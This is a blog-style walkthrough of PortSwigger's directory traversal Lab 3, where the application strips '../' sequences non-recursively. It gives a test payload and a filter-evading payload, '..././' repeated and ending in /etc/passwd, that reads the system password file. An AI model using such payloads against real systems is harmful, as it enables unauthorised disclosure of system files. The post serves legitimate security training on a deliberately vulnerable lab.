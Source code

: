 ```yaml
---
layout: post
title:  "PortSwigger - Directory Traversal - Lab 3"
date:   2024-06-10 00:00
image:  /images/portswigger/WebSecurityAcademy.png
tags:   [directory-traversal]
categories: [PortSwigger]
---
```


# Lab 3 - Directory Traversal - File path traversal, traversal sequences stripped non-recursively
><b>Lab Objective:</b>
<br/><br/>
This lab contains a path traversal vulnerability in the display of product images.
The application strips path traversal sequences from the user-supplied filename before using it.<br/><br/>
To solve the lab, retrieve the contents of the `/etc/passwd` file.
<br/>
<br/>
<b>Reference:</b>
<br/>
<a href="https://portswigger.net/web-security/file-path-traversal/lab-sequences-stripped-non-recursively">Port Swigger - Lab 3</a>
<br/>
<a href="https://academy.ranakhalil.com/courses/1491236/lectures/44691839">Rana Khalil - Lab 3</a>
<br/>

### Solution
<hr/>

#### 1. Try the payload 

```
../../../../etc
```

![Directory Traversal - Lab 3 - Basic payload](/images/portswigger/DirectoryTraversal/lab3/directory-traversal-lab3-test-payload.png)


#### 2. We'll test to see if the filter removes the file path recursively.

```
..././..././..././..././etc/passwd
```

![Directory Traversal - Lab 3 - Recursive payload](/images/portswigger/DirectoryTraversal/lab3/directory-traversal-lab3-recursive-payload.png)
<hr/>
